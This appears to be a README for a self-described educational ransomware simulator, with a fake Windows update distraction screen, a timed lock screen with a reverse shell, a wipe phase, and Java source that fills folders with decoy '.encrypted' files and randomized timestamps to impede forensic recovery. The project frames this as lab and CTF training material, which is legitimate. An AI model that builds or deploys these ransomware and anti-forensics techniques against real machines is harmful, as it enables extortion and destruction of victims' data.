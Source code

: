 ## Legal Disclaimer

This software is provided **strictly for educational, research, and ethical practice purposes only**.

-  **Do NOT use this tool on any system you do not own or have explicit permission to test.**
-  **Unauthorized use of this software may be illegal and is strictly prohibited.**
-  **The author takes no responsibility for any damage, data loss, or legal consequences resulting from misuse.**

By using this software, you agree to use it **ethically, lawfully**, and in **controlled environments such as CTFs, virtual labs, or testing networks**.

This tool is intended to help raise awareness and understanding of security threats — **not to promote or enable criminal activity**.

## Safety Features

- **Safe Decrypt Option:** Instantly restores files to prevent damage during testing.  
- **Reverse Shell:** Runs via Windows CMD for controlled simulation and has a connector for testing.  
- **Limited Impact:** Only files in a safe test folder are affected.

## Windows10FakeUpdate  
A fake Windows update screen used as a distraction that encrypts discovered files and estimates a time so it is ready and not as alarming to users. Furthermore, this behaviour can often be related to other malware types, such as viruses, that use that time to spread through vulnerabilities such as zero-days, or even install rootkits onto a compromised machine.

<p align="center">
  <img src="images/Windows10FakeUpdate.JPG" alt="WindowsFakeUpdate" />
</p>

## InitialPhase  
Initial lock screen phase with timer and shell connection. This is demonstrated as it is often used in real-world TTPs (Tactics, Techniques, and Procedures), and is commonly shown in attackers' OPSEC operations, which they can use to further escalate privileges or obfuscate logs.

<p align="center">
  <img src="images/FileLocker_BluePhase.JPG" alt="FirstPhase" />
</p>

## SecondPhase  
Critical phase with timer and increased demands, file deletion if requirements are met with simulated payment code. If demands are not met, this ethical ransomware runs a wipedown where the user's encrypted files are deleted, simulating similar behaviours to the NotPetya ransomware that would delete a compromised machine's files. In this case, it is simulated and only targets files in a specific directory.  

<p align="center">
  <img src="images/FileLocker_RedPhase.JPG" alt="SecondPhase" />
</p>

# Updates
A new feature is nearly complete that generates files with randomized names and content. It demonstrates how attackers use such tactics to lower the likelihood of data recovery and forensic analysis. Furthermore, techniques like this have appeared in real-world ransomware campaigns, including early WannaCry variants.
## Features included in prototype
- directory and file creation with random dates and times within a year period.
- multi threading added to improve speed
<details>
<summary>Show/Hide Code</summary>

```java

//Disclamer!
//To prevent any harm to your machine use this code in a safe/testing environment only.
//I do not take any liability for the codes use.

//Usage
//Only run this code in compliance with local laws and on systems you own or are authorized to

import java.io.FileOutputStream;

import java.io.IOException;

import java.nio.file.*;

import java.nio.file.attribute.BasicFileAttributeView;

import java.nio.file.attribute.FileTime;

import java.time.Instant;

import java.util.Random;

public class DistractionFileCreator {

// Write random bytes into a file to mimic encrypted content

public static void writeRandomBytes(Path file, int minBlocks, int maxBlocks) throws IOException {

    Random random = new Random();

    int blocks = random.nextInt(maxBlocks - minBlocks + 1) + minBlocks;

    try (FileOutputStream fos = new FileOutputStream(file.toFile())) {

        for (int i = 0; i < blocks; i++) {

            byte[] randomBytes = new byte[64]; // 64 bytes per block

            random.nextBytes(randomBytes);

            fos.write(randomBytes);

        }

    }

}



// Set random file creation/modification times

private static void setRandomFileTime(Path path) throws Exception {

    Random random = new Random();

    FileTime randomTime = FileTime.from(

            Instant.now().minusSeconds(random.nextInt(60 * 60 * 24 * 365))

    );

    BasicFileAttributeView view = Files.getFileAttributeView(path, BasicFileAttributeView.class);

    view.setTimes(randomTime, randomTime, randomTime);

}



public static void shutdown() {

    System.out.println("Process complete!");

    System.exit(0);

}



public static void DirectoryCreator() {

    Random rand = new Random();



    for (int rp = 0; rp < 15; rp++) {

        // Safe characters for Windows folder names

        String dirChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

        StringBuilder name = new StringBuilder();

        for (int i = 0; i < 16; i++) {

            name.append(dirChars.charAt(rand.nextInt(dirChars.length())));

        }



        Path path = Paths.get(name + ".encrypted");



        try {

            Files.createDirectory(path);

            System.out.println("Directory created: " + path);

            setRandomFileTime(path);



            int fnum = rand.nextInt(20); // number of files per directory



            for (int frp = 0; frp < fnum; frp++) {

                // Generate safe file name

                StringBuilder fileName = new StringBuilder();

                for (int i = 0; i < 16; i++) {

                    fileName.append(dirChars.charAt(rand.nextInt(dirChars.length())));

                }

                fileName.append(".encrypted");



                Path testFile = Paths.get(path.toString(), fileName.toString());

                Files.createFile(testFile);

                setRandomFileTime(testFile);

                System.out.println("File created: " + testFile);



                // Fill the file with random bytes

                writeRandomBytes(testFile, 5, 30); // 5-30 blocks of 64 bytes

            }



        } catch (Exception e) {

            System.out.println("Error: " + e);

        }

    }

    shutdown();

}



public static void main(String[] args) {

    DirectoryCreator();

}
}  




```
</details> 

# Current isues
The current file discovery process fails when the specified path includes a directory. Once it encounters a directory, it is unable to encrypt any files contained within its subdirectories.

## Current file discovery
<p align="center">
  <img src="images/Diagrams/CurrentFileDiscoverer.png" alt="CurrentFileDiscovery" />
</p>

## Updated file discovery

<p align="center">
  <img src="images/Diagrams/ImprovedFileDiscoverer.png" alt="UpdatedFileDiscovery" />
</p>
